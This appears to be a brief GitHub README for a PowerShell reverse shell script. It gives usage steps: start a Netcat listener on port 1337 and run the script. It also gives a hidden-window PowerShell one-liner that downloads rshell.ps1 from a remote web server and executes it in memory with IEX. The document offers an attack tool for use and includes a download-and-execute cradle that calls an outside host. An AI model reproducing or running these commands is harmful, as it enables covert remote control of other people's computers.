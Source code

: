# Basic PowerShell reverse shell

1) Use "**nc -lp 1337**" to Start a Netcat listener on port defined in rshell file
2) Execute "**rsshell.ps1**", optionally use: **powershell -w hidden "IEX (New-Object Net.WebClient).DownloadString('http://mywebsite.com/rshell.ps1');"** to download & execute reverse shell from a server
